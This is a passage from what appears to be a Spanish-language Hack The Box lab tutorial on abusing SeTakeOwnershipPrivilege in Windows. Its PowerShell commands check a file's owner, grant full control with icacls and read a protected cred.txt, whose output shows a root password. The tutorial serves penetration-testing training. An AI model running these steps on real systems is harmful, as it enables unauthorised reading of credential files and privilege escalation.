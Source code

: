   SetakeownershipPrivilege

```powershell-session
PS C:\htb> Get-ChildItem -Path 'C:\Department Shares\Private\IT\cred.txt' | select name,directory, @{Name="Owner";Expression={(Get-ACL $_.Fullname).Owner}}
 
Name     Directory                       Owner
----     ---------                       -----
cred.txt C:\Department Shares\Private\IT WINLPE-SRV01\htb-student
```

#### Modificación del archivo ACL

Es posible que aún no podamos leer el archivo y necesitamos modificar el archivo ACL usando`icacls`poder leerlo.

  SetakeownershipPrivilege

```powershell-session
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

cat : Access to the path 'C:\Department Shares\Private\IT\cred.txt' is denied.
At line:1 char:1
+ cat 'C:\Department Shares\Private\IT\cred.txt'
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Department Shares\Private\IT\cred.txt:String) [Get-Content], Unaut
   horizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

Otorgemos a nuestro usuario privilegios completos sobre el archivo de destino.

  SetakeownershipPrivilege

```powershell-session
PS C:\htb> icacls 'C:\Department Shares\Private\IT\cred.txt' /grant htb-student:F

processed file: C:\Department Shares\Private\IT\cred.txt
Successfully processed 1 files; Failed processing 0 files
```

#### Leyendo el archivo

Si todo fue planeado, ahora podemos leer el archivo de destino desde la línea de comando, abrirlo si tenemos acceso RDP o copiarlo a nuestro sistema de ataque para un procesamiento adicional (como descifrar la contraseña para una base de datos Keepass.

  SetakeownershipPrivilege

```powershell-session
PS C:\htb> cat 'C:\Department Shares\Private\IT\cred.txt'

NIX01 admin
 
root:n1X_p0wer_us3er!
```
